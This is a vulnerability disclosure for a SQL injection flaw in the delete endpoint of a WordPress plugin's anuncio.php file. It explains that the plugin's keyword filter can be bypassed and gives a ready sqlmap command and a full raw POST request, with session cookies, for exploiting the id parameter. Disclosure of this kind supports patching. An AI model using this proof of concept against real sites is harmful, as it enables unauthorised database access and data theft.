 ### The data deletion interface of the wordpress plugin arielbrailovsky-viralad has a sql injection vulnerability.

**Official website**: https://wordpress.org/plugins/arielbrailovsky-viralad/

**Version**：1.0.8

**Route**：/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php

**API function**: delete records

**Injection parameters**: id

**Request method**：POST

**Complete vulnerability trigger related interfaces and parameters**：[/wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php]、[id=3&accion=delete&nocache=0.7030143690647372&security=7g1qlrsdkupbw5ocvije]

#### 1.Vulnerability analysis

In the anuncio.php file, when the request method is post and the request parameter action is delete, the incoming ID will be directly obtained and processed by the limpia function, and then directly spliced into the SQL query statement for execution.

![image-20250302202241001](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250302202241001.png)

However, the limpia function only performs simple keyword filtering, which can be bypassed by attackers (such as case, keyword replacement, blind injection, etc.).

![image-20250302202435900](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250302202435900.png)

Therefore, attackers can easily construct malicious SQL injection payloads for exploitation.

#### 2.Vulnerability verification and exploitation

You can use sqlmap to verify the vulnerability：python sqlmap.py -r 1.txt --batch --dbms=mysql

The specific injection data packets are as follows (need to replace nocache, security in the URL and cookies in the request header after logging in)

```
POST /wp-content/plugins/arielbrailovsky-viralad/inc/anuncio.php HTTP/1.1
Host: wp3:82
Content-Length: 75
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://wp3:82
Referer: http://wp3:82/wp-admin/options-general.php?page
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wordpress_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C6a60c9d06464a51a9060e3fdf0020e0b; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_37a4e717093a81abe878d0b0a4b265ee=admin%7C1742114129%7C0abf1d7f8bfba5dca9d1f96d15294f9d; wp-settings-1=m6%3Do%26m9%3Do; wp-settings-time-1=1740904532; PHPSESSID=irmjinoeft5778hb5e97i155j6
Connection: close

id=3&accion=delete&nocache=0.7030143690647372&security=7g1qlrsdkupbw5ocvije
```

![image-20250302204633777](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250302204633777.png)